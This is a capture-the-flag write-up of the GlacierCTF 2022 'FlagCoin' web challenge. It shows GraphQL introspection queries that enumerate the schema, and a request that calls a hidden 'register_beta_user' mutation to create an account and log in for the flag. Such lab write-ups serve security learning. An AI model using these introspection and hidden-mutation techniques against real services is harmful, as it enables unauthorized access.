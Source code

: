 ### FlagCoin

I couldn't really play this as whole because I had some errands to run for. Though, I solved this easy web challenge which was based on GraphhQL
So, looking into the challenge, we see that there's a login page, checking the source of `main.js` which handles the login request:


```json
{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "Query"
        },
        {
          "name": "User"
        },
        {
          "name": "String"
        },
        {
          "name": "Int"
        },
        {
          "name": "Mutation"
        },
        {
          "name": "Voucher"
        },
        {
          "name": "JSON"
        },
        {
          "name": "Boolean"
        },
        {
          "name": "__Schema"
        },
        {
          "name": "__Type"
        },
        {
          "name": "__TypeKind"
        },
        {
          "name": "__Field"
        },
        {
          "name": "__InputValue"
        },
        {
          "name": "__EnumValue"
        },
        {
          "name": "__Directive"
        },
        {
          "name": "__DirectiveLocation"
        }
      ]
    }
  }
}
```
There are different numbers of schemas available but `Users` and `Mutations` are more of concern here, a quick overview of the `mutation` is that it acts like a function in a GraphQL query. Digging deeper into the `User` schema, we see that it contains 3 columns i.e. `username`, `password` and `coins`:

```r
query={__type (name: "User") {name fields{name type{name kind ofType{name kind}}}}}
```

```json
{
  "data": {
    "__type": {
      "name": "User",
      "fields": [
        {
          "name": "username",
          "type": {
            "name": "String",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "password",
          "type": {
            "name": "String",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "coins",
          "type": {
            "name": "Int",
            "kind": "SCALAR",
            "ofType": null
          }
        }
      ]
    }
  }
}
```

Trying to query `User` with `query={User{username,password}}`, it simply threw an error `"message":"Cannot query field \"User\" on type \"Query\".",`. Since, we already know that `mutations` exists here, we can try to see if there is any other mutations we can make use of:

```json
{
  "data": {
    "__type": {
      "name": "Mutation",
      "fields": [
        {
          "name": "login",
          "type": {
            "name": "User",
            "kind": "OBJECT",
            "ofType": null
          }
        },
        {
          "name": "register_beta_user",
          "type": {
            "name": "User",
            "kind": "OBJECT",
            "ofType": null
          }
        },
        {
          "name": "redeem",
          "type": {
            "name": "Voucher",
            "kind": "OBJECT",
            "ofType": null
          }
        }
      ]
    }
  }
}
```

There is a mutation named `register_beta_user`, for the initial login request, I just replace the `login` with `register_beta_user` and the application gave a successful response:

```json
{
  "query": "\n      mutation($username: String!, $password: String!) { \n        register_beta_user(username: $username, password: $password) { \n          username \n        } \n      }\n      ",
  "variables": {
    "username": "hello",
    "password": "world"
  }
}
```

```json
{
  "data": {
    "register_beta_user": {
      "username": "hello"
    }
  }
}
```

Once done, logging in with the credentials `hello:world` gave the flag:

[](/2022/GlacierCTF/images/flagcoin.png)